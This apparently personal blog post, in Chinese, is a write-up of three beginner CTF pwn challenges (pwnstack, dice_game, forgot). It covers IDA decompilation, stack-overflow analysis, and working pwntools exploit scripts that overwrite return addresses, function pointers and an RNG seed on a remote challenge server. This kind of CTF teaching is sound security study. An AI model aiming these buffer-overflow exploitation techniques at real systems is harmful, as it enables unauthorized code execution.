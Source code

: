 ```yaml
---
title: pwn 入门刷题
date: 2024-10-18 21:00:15
permalink: /pages/e76739/
author: 
  name: the0n3
  link: https://the0n3.top
---
```

# pwn 入门刷题

攻防世界pwn题目

## pwnstack

下载拖到ida64里反编译

![0](https://the0n3.top/medias/00pwn/0.png)

进入到`vuln`函数，定义了一个160（0xa0）字节的缓冲区，存在一个`read`函数，会读取177（b1）个字节，导致栈溢出

![1](https://the0n3.top/medias/00pwn/1.png)

查看汇编代码，看到后门函数，函数地址放在缓冲区后覆盖栈的返回地址`0x400762`

![2](https://the0n3.top/medias/00pwn/2.png)

或者通过`shift+f12`找到`/bin/sh`字符串，再通过在`/bin/sh`地址上`ctrl+x`找到它的引用，也可以找到后门函数的定义

![3](https://the0n3.top/medias/00pwn/3.png)

![4](https://the0n3.top/medias/00pwn/4.png)

ctf wiki用一个很好的概念来理解栈的结构，如下

```txt
                                           +-----------------+
                                           |     retaddr     |
                                           +-----------------+
                                           |     saved ebp   |
                                    ebp--->+-----------------+
                                           |                 |
                                           |                 |
                                           |                 |
                                           |                 |
                                           |                 |
                                           |                 |
                              s,ebp-0x14-->+-----------------+
```

从图中可以看出，`s`变量一共可以传入的字节大小为`14`,如果超过的话，多出的就会到`saved ebp`中，根据我的查阅`saved ebp`保存的是`栈帧`，根据栈帧确定变量的返回值，`x86`中`saved ebp`的大小为`4个字节`，`x64`中`saved ebp`的大小为`8个字节`，最后的`retaddr`就是溢出的部分，我们可以控制`retaddr`的值，将其修改为我们想要执行函数的内存地址

看一下这题的文件类型，`64`位，所以`saved ebp`的大小为`8个字节`覆盖`saved ebp`，所以我们需要填充`0xa0+8=0xa8`个字节，然后，最后填入后门函数的地址`0x400762`

![5](https://the0n3.top/medias/00pwn/5.png)

最后发送`p64`函数包裹的数据，是为了让程序认为这是一个内存地址，不然接受的就是字符`0x400762`

编写exp：

```python
from pwn import *

# 本地调试
# p = process('./pwn2')
# 远程
p = remote('61.147.171.105', 53646)
payload = b'a' * (0xa0+8) + p64(0x400762)
p.sendline(payload)
p.interactive()
```

![6](https://the0n3.top/medias/00pwn/6.png)

远程可以打通，本地打不通，这是什么原因。把后门地址改成`0x400766`时，本地和远程都可以

## dice_game

ida64反编译，分析主函数，sub_A20，sub_B28等函数

![7](https://the0n3.top/medias/00pwn/7.png)

![8](https://the0n3.top/medias/00pwn/8.png)

![9](https://the0n3.top/medias/00pwn/9.png)

分析这三个函数大概可以知道，这是一个游戏，使用当前时间生成一个种子，调用sub_A20函数使用这个种子生成50个1-6之间的随机数，等待用户输入，如果50道全对，调用sub_B28函数读取flag

在ida里可以看到buf,seed在栈中，buf长度为55，seed长度为2，在0x10位置

![10](https://the0n3.top/medias/00pwn/10.png)

可以通过buf，覆盖seed，从而控制种子，再利用题目给的libc库里定义的rand函数，就可以生成与题目一样的随机数

```python
from pwn import *
from ctypes import * # 导入ctypes库，用于调用libc库中的函数
#from LibcSearcher import *
context.log_level = 'debug'  # 设置调试模式

r = remote('61.147.171.105',54885)
libc = cdll.LoadLibrary("libc.so.6")#利用题目给的libc库中的函数rand生成与题目一样的随机数。

payload= b'a'*(0x50-0x10)+p64(0)

r.sendafter('Welcome, let me know your name: ',payload)

a=[]

for i in range(50):
    a.append(libc.rand()%6+1)
print(a)

for i in a:
    r.recv()
    print(r.recv())
    r.sendline(str(i))

r.interactive()
```

![11](https://the0n3.top/medias/00pwn/11.png)


## forgot

检测一下，32位程序，没有栈保护

![12](https://the0n3.top/medias/00pwn/12.png)

反编译分析，定义了长度为32位字节的s，作为用户名来接收，可以随便输入。定义了v3，存入了几个函数的地址

定义了长度为32的v2，使用`scanf`函数接收，没有限制长度，存在栈溢出

![13](https://the0n3.top/medias/00pwn/13.png)

根据定义的v2,v3，发现缓冲区里可以使用v2溢出覆盖v3

![14](https://the0n3.top/medias/00pwn/14.png)

在程序的最后有一处动态函数调用

![15](https://the0n3.top/medias/00pwn/15.png)

`shift+f12`跟进引用，找到`cat flag`的函数`sub_80486CC`

![16](https://the0n3.top/medias/00pwn/16.png)

所以需要把`v3[--v5]`也就是`v3[1]`的地址覆盖为`sub_80486CC`函数的地址`0x80486CC`

在这个循环中，会对输入的每一位字符进行检测，如果符合就更改v5的值，进入下一层检测，跟着他的要求做要找到合适的email格式，以及函数地址的改变，题目会变得更难，直接在第一个检测里找到不符合的字符，使每一位都不符合，这样v5就不需要改变了。在检测结束就可以调用目标函数

![17](https://the0n3.top/medias/00pwn/17.png)

在第一个检测中，检查是否是小写字母、数字，或是特定的几个符号下划线、减号、加号、点，拿大写字母绕过就可以了

```c
_BOOL4 __cdecl sub_8048702(char a1)
{
  return a1 > 96 && a1 <= 122 || a1 > 47 && a1 <= 57 || a1 == 95 || a1 == 45 || a1 == 43 || a1 == 46;
}
```

编写exp

```python
from pwn import *

payload = b'A'*0x20 + p32(0x80486cc)
# p = process('./forgot')
p = remote('61.147.171.105', 61568)
p.sendlineafter('> ','test')
p.sendlineafter('> ',payload)
p.interactive()
```




参考：

- [BUUCTF-pwn-rip(第一个栈溢出) ](https://www.cnblogs.com/Junglezt/p/17871927.html)
- [攻防世界 pwnstack writeup](https://blog.csdn.net/m0_73605862/article/details/130919537)
- [dice_game--攻防世界](https://www.cnblogs.com/Mua2Uncle2blog/p/15505565.html)
- [攻防世界（PWN）forgot](https://blog.csdn.net/weixin_43876357/article/details/109028936)
- [攻防世界进阶区forgot](https://sphandsomejack.github.io/2020/02/17/forgot/)